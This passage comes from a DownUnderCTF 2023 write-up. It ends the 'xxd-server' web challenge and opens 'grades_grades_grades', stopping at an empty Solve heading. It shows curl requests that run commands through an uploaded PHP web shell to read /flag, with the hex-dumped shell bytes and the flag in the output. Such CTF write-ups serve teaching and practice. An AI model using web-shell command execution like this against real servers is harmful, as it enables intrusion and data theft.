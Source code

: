 Start php web server and confirmed that it works!

```bash
php -S 0.0.0.0:80
curl 127.0.0.1/shortest.php?0=id
```

![](/assets/obsidian/ca83a46e82807d0b741bf4ca1854fb21.png){:target='_blank'}

By viewing `Dockerfile`, I know that flag is at `/flag`

```bash
FROM php:8.1-apache

COPY index.php .htaccess /var/www/html/
COPY flag /
RUN sed -i 's/AllowOverride None/AllowOverride All/g' /etc/apache2/apache2.conf
RUN mkdir -p /var/www/html/uploads && chmod 1333 /var/www/html/uploads
```

Get the flag

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl 'https://web-xxd-server-2680de9c070f.2023.ductf.dev/uploads/2921f5b9027cb601/shortest.php?0=cat+/flag'
00000000: 3c3f 3d60 245f 4745 545b 305d 603b       DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}
```

> DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}


## grades_grades_grades


#### Info

Sign up and see those grades :D! How well did you do this year's subject? Author: donfran

[https://web-grades-grades-grades-c4627b227382.2023.ductf.dev](https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/){:target='_blank'}

#### Solve
